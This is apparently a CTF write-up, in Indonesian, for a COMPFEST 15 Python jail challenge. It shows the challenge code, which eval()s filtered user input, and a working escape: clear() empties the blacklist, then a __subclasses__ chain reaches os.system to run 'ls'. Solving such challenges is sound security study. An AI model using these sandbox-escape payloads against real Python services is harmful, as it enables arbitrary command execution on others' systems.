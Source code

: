 ```python
                if keyword in inp.lower() or not inp.isascii():
                    print(f"Cannot execute unauthorized input {inp}")
                    print("I told you our system is hack-proof.")
                    exit()
            try:
                eval(inp)
            except:
                print(f"Cannot execute {inp}")
            
            inp = input(f"{user} > ")

    elif user == "admin":
        print("LOGGING IN TO ADMIN FROM PRISONER SHELL IS NOT ALLOWED")
        print("SHUTTING DOWN...")
        exit()
    
    else:
        print("User not found.")

# ...
```

Dari yang kami lihat chall ini merupakan sebuah pyjail. Setelah kami mencoba trial and error pada server tersebut kami teringat bahwa ada fungsi clear() yang bisa dipanggil untuk menghapus semua banned list. jadi kami mencoba hal itu dan benar saja banned listnya kosong

![Desktop View](/assets/img/ctf2023/compfest15/img1.png){: .center }

setelah itu kami mencari apakah ada module os yang bisa digunakan, payloadnya:
```python
print("".__class__.__mro__[1].__subclasses__())
```
dari situ kami dapat melihat ada module os pada index ke 127

Lalu kami membuat payload untuk mengakses shell nya
```python
print(''.__class__.__mro__[1].__subclasses__()[127].__init__.__globals__['sys'].modules['os'].__dict__['system']('ls'))
```

![Desktop View](/assets/img/ctf2023/compfest15/img2.png){: .center }
